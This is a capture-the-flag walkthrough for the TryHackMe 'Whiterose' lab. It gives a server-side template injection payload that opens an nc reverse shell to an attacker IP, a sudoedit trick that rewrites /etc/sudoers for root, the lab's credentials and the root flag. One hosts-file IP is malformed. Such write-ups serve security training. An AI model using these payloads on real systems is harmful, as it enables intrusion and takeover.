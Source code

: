 ```yaml
---
title: "TryHackMe - Whiterose Walkthrough"
date: 2024-12-12
categories: [TryHackMe]
tags: [SSTI, RCE, Privilege Escalation]
image: assets/images/thm-cover/whiterose-Cover.jpg
---
```


# TryHackMe - Whiterose Walkthrough

---

## Initial Information
- **Username:** Olivia Cortez  
- **Password:** olivi8  

---

## Step 1: Nmap Scan

Run an Nmap scan to identify open ports and services:

```bash
sleep33@THM:~$ nmap -v -sVC -p- -oN nmap.txt $IP
```

### Results:
- **Port 22 (SSH):** OpenSSH 7.6p1 Ubuntu  
- **Port 80 (HTTP):** nginx 1.14.0 (Ubuntu)  

---

## Step 2: Configure Hosts File

Add the following to your `/etc/hosts` file:

```plaintext
sleep33@THM:~$ echo "10.246.13 cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 3: Subdomain Enumeration

Enumerate subdomains using `ffuf`:

```bash
sleep33@THM:~$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1
```

### Found Subdomains:
- **www**: [200 OK]  
- **admin**: [302 Redirect]  

Add the following to your `/etc/hosts`:

```plaintext
sleep33@THM:~$ echo "10.246.13 admin.cyprusbank.thm" | sudo tee -a /etc/hosts
```

---

## Step 4: Admin Panel Access

1. Visit `http://admin.cyprusbank.thm/`.
2. Log in with:
   - **Username:** Olivia Cortez  
   - **Password:** olivi8  

---

## Step 5: Messages Exploration

Navigate through messages using the following URL format:

```bash
sleep33@THM:~$ curl http://admin.cyprusbank.thm/messages/?c=<number>
```

### Key Findings:
- **Credentials:**  
  ```plaintext
  GayleBev: p~]P@5!6;rs558:q
  ```
- **Phone Number:**  
  ```plaintext
  Tyrell Wellick: 842-029-5701
  ```

---

## Step 6: Exploiting SSTI (Server-Side Template Injection)

### Exploitation
Send a POST request to `/settings` using the following payload:

```bash
sleep33@THM:~$ curl -X POST -d "name=admin&password=admin&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('nc -e /bin/bash 10.14.91.33 4443');" http://admin.cyprusbank.thm/settings
```

---

## Step 7: Reverse Shell Setup

Set up a listener on your local machine:

```bash
sleep33@THM:~$ nc -lvnp 4443
```

---

## Step 8: Privilege Escalation

### Check Sudo Permissions

```bash
sleep33@THM:~$ sudo -l
```

### Exploit `sudoedit`

1. Export the editor:
   ```bash
   sleep33@THM:~$ export SUDO_EDITOR='nano -- /etc/sudoers'
   ```
2. Run:
   ```bash
   sleep33@THM:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
   ```

### Modify Sudoers File:
Add the following:

```plaintext
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

## Step 9: Gain Root

Switch to the root user:

```bash
sleep33@THM:~$ sudo bash
```

Navigate to `/root` and read the flag:

```bash
sleep33@THM:~$ cd /root
sleep33@THM:~$ cat root.txt
```

**Root Flag:**  
```plaintext
THM{4nd_uR_p4ck4g3s}
```

---
